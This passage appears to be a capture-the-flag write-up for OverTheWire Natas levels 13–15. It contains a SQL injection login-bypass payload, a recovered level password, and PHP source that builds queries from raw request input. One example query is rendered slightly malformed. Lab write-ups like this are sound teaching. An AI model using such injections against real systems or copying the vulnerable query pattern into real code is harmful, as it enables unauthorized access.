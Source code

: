 ```markup
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

```text
SELECT * from users where username="username_input" and password="password_input"
```

so if we input

```text
natas14
pass" or "1"="1
```

it will look like this.

```text
SELECT * from users where username="natas14" or and password="pass" or "1"="1"
```

Since the or is always true \( 1 = 1\) the password doesnt need to be correct.

```text
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

## Natas15

```markup
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

```